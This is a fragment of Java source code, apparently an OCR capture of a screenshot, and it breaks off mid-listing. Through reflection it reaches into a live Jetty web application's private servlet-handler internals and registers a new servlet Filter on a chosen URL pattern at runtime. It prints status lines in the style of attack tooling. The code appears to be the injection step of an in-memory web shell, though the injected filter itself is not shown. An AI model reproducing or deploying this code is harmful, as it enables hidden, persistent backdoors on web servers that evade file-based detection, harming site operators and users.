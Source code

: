 ```
        if(threadClassLoader != null){
            if(threadClassLoader.toString().contains("WebAppClassLoader")){
                Field fieldContext = threadClassLoader.getClass().getDeclaredField("_context");
                fieldContext.setAccessible(true);
                Object webAppContext = fieldContext.get(threadClassLoader);
                Field fieldServletHandler = webAppContext.getClass().getSuperclass().getDeclaredField("_servletHandler");
                fieldServletHandler.setAccessible(true);
                Object servletHandler = fieldServletHandler.get(webAppContext);
                Field fieldFilters = servletHandler.getClass().getDeclaredField("_filters");
                fieldFilters.setAccessible(true);
                Object[] filters = (Object[]) fieldFilters.get(servletHandler);
                boolean flag = false;
                for(Object f:filters){
                    Field fieldName = f.getClass().getSuperclass().getDeclaredField("_name");
                    fieldName.setAccessible(true);
                    String name = (String) fieldName.get(f);
                    if(name.equals(filterName)){
                        flag = true;
                        break;
                    }
                }
                if(flag){
                    out.println("[-] Filter " + filterName + " exists.<br>");
                    return;
                }
                out.println("[+] Add Filter: " + filterName + "<br>");
                out.println("[+] urlPattern: " + urlPattern + "<br>");
                ClassLoader classLoader = servletHandler.getClass().getClassLoader();
                Class sourceClazz = null;
                Object holder = null;
                Field field = null;
                try{
                    sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
                    field = sourceClazz.getDeclaredField("JAVAX_API");
                    Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                    holder = method.invoke(servletHandler, field.get(null));
                }catch(ClassNotFoundException e){
                    sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.BaseHolder$Source");
                    Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                    holder = method.invoke(servletHandler, Enum.valueOf(sourceClazz, "JAVAX_API"));
                }
                holder.getClass().getMethod("setName", String.class).invoke(holder, filterName);               
                holder.getClass().getMethod("setFilter", Filter.class).invoke(holder, filter);
                servletHandler.getClass().getMethod("addFilter", holder.getClass()).invoke(servletHandler, holder);

                Class  clazz         = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
                Object filterMapping = clazz.newInstance();
                Method method        = filterMapping.getClass().getDeclaredMethod("setFilterHolder", holder.getClass());
                method.setAccessible(true);
                method.invoke(filterMapping, holder);
                filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{urlPattern}});
                filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
```